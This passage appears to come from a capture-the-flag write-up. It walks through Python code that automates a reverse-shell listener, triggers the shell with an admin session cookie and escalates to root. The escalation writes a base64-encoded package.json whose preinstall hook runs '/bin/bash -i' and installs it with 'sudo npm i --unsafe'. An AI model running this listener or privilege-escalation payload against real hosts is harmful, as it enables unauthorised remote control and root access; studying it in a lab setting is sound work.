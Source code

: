     print('[*] Connection received from ',addr)
    defaultSleepTime = 1 #Time to wait for command output before returning, Measured in seconds
    sleepTime = defaultSleepTime
    while True:

        #Receive data from the target and execute commands
        ans = conn.recv(1024).decode()
        if commands:
            command = commands[0]
            commands = commands[1:]
            if not commands: #If this command is the last command
                sleepTime = 5 #Wait 5 seconds to ensure that all commands have been fully exectued before getting>
        else:
            sys.stdout.write(ans)
            command = input()
            #Remove the output of the "input()" function
            sys.stdout.write("\033[A\033[F"+ans.split("\n")[-1])

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(sleepTime) #Wait a second before retreiving the output of the command
        sleepTime = defaultSleepTime
{% endhighlight %}
The `commands` parameter can be used to run a list of commands after obtaining a shell but before handing the shell to the user, making it ideal for automated privilege escalation. This is implemented with an if statmeent on line 23 to 28. This if statement simply checks if the `commands` list is not empty and sets the command to execute to the first command in the list. If the list only contains one element, it also waits for 5 seconds to ensure that the execution of the commands is terminated before handing the shell to the user.

{% highlight python linenos %}
thread3 = threading.Thread(target=executeRevShell,args=(URLBASE,LHOST,rsLock,headers))
thread3.start()
{% endhighlight %}
Next, we start Thread 3 and instruct it to execute the `executeRevShell` function. We provide it with the `rsLock` lock so that we can inform it when the listener is ready. In addition, we provide it with the `headers` dictionary which contain the admin user's session cookie and a valid `User-Agent` header.

The last step is to prepare a list with privilege escalation commands and start a listener with these commands, as performed below. We can get the base64 representation of the `package.json` file by executing `cat package.json | base64 -w 0` in a terminal. We place the resulting base64 encoded data in a variable named `packageJSON`. Then, we create a list containing the privilege escalation commands we saw in the previous section. The only difference is that we add the command `echo '[base64]' | base64 -d > privescPackage/package.json`, where `[base64]` is the base64 encoded content of the `package.json` file. This command will write the malicious `package.json` file to disk on the target host.

{% highlight python linenos %}
packageJSON = "ewogICJuYW1lIjogInByaXZlc2NQYWNrYWdlIiwKICAidmVyc2lvbiI6ICIxLjAuMCIsCiAgIm1haW4iOiAiaW5kZXguanMiLAogICJzY3JpcHRzIjogewogICAgInByZWluc3RhbGwiOiAiL2Jpbi9iYXNoIC1pIgogIH0KfQo="
privescCommands = ["mkdir ./privescPackage","echo '" + packageJSON + "' | base64 -d > privescPackage/package.json","sudo npm i privescPackage --unsafe"]
listener(LHOST,int(LPORT),mutex=rsLock,commands=privescCommands)
{% endhighlight %}
